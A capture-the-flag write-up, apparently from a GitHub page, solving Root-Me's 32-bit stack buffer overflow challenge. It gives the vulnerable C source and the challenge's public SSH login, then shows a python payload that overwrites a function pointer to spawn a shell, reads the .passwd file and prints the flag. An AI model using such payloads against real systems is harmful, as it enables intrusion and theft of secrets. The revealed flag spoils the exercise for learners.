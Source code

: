 # ELF x86 - Stack buffer overflow basic 2 
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2
```
Environment configuration :

PIE 	        Position Independent Executable 	 No 
RelRO 	        Read Only relocations 	                 No 
NX 	        Non-Executable Stack 	                 No 
Heap exec 	Non-Executable Heap 	                 No 
ASLR 	        Address Space Layout Randomization 	 No 
SF 	        Source Fortification 	                 No 
SRC 	        Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch15@challenge02.root-me.org    
Username	app-systeme-ch15
Password	app-systeme-ch15
```

The source code is:
```c
/*
gcc -m32 -fno-stack-protector -o ch15 ch15.c
*/

#include <stdio.h>
#include <stdlib.h>

void shell() {
    system("/bin/dash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

This challenge is pretty basic.<br>
The local variables present in the stack, one after the other.<br>
So basically, we need to write 128 junk bytes to fill _buf_ and then the value of _func_ that we'll like. Just for testing:
```gdb
(gdb) run < <(python -c "print 'A'*128 + 'DDDD'")
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128 + 'DDDD'")

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
Yep it worked :sunglasses:<br>
So let's replace 'DDDD' with the address of **shell** (0x8048464) and get our shell:
```sh
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128 + '\x64\x84\x04\x08'") - | ./ch15 
whoami
app-systeme-ch15-cracked
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```
